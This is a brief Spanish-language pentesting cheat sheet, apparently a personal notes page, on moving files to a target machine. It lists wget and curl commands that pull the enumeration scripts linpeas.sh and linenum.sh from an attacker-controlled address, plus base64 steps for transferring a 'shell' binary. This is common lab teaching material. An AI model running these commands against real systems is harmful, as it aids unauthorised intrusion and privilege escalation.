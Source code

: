 ```yaml
---
{"dg-publish":true,"permalink":"/hacking/basico/transferencia-de-archivos/","dgPassFrontmatter":true}
---
```



---------------
#fileTransfer
 
-------

|                                                        |                                                                         |
| ------------------------------------------------------ | ----------------------------------------------------------------------- |
| **Transferencia de archivos**                          |                                                                         |
| `python3 -m http.server 8000`                          | Iniciar un servidor web local                                           |
| `wget http://10.10.14.1:8000/linpeas.sh`               | Descargue un archivo en el servidor remoto desde nuestra máquina local  |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Descargue un archivo en el servidor remoto desde nuestra máquina local  |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`       | Transfiera un archivo al servidor remoto con (requiere acceso SSH)`scp` |
| `base64 shell -w 0`                                    | Convertir un archivo a `base64`                                         |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`      | Convertir un archivo de nuevo a su origen`base64`                       |
| `md5sum shell`                                         |                                                                         |